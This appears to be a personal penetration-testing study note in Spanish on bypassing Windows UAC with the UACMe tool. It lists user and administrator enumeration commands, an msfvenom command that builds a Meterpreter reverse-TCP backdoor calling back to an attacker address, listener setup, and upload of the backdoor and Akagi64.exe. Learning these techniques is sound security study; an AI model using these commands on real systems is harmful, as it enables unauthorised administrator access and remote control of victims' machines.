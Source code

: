 21-03-2025 20:43
Status: #idea
Tags: [[Windows Privilege Escalation]]

# Bypassing UAC (UACMe)

UAC es una herramienta de Windows que permite solicitar permisos del administrador para realizar ciertas acciones.

Básicamente, permite indicarle a Windows que el usuario está seguro de que quiere ejecutar el programa.

Para conseguir saltarnos UAC, necesitaremos acceso a una cuenta de usuario que esté en el grupo de local administrators.

Como en la elevación de permisos, las técnicas van a cambiar dependiendo de la versión que usemos de Windows.

Para verificar que usuarios hay en la máquina, y cuales forman parte del grupo de administradores podremos usar estos comandos en un shell:

```shell
net user
net localgroup administrators
```

Si estamos en un meterpreter, habrá que spawnear una shell antes, con el comando **shell**.

Para verificar que UAC está funcionando correctamente, podremos intentar cambiar la contraseña de algún admin, por ejemplo:

```shell
net user admin password123
```

## Uso de UACMe

[UACMe](https://github.com/hfiref0x/UACME) es una herramienta que nos ayudará a saltarnos esta comprobación de Windows.

Tendremos que generar un payload con msfvenom:

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f exe > backdoor.exe
```

Posteriormente, tendremos que crear un listener, para lo que usaremos **multi/handler**, poniendo la payload **windows/meterpreter/reverse_tcp**, poniendo el LHOST y LPORT como siempre.

Si no existe el directorio Temp, tendremos que navegar a C: y crearlo, y posteriormente, subir en la máquina que tenemos el meterpreter nuestro backdoor.exe con el comando upload, además del Akagi64 o Akagi32 de UACMe.

```shell
upload backdoor.exe
upload Akagi64.exe
```

---
# Backlinks

```dataview
LIST
FROM [[]]
SORT file.name ASC
```

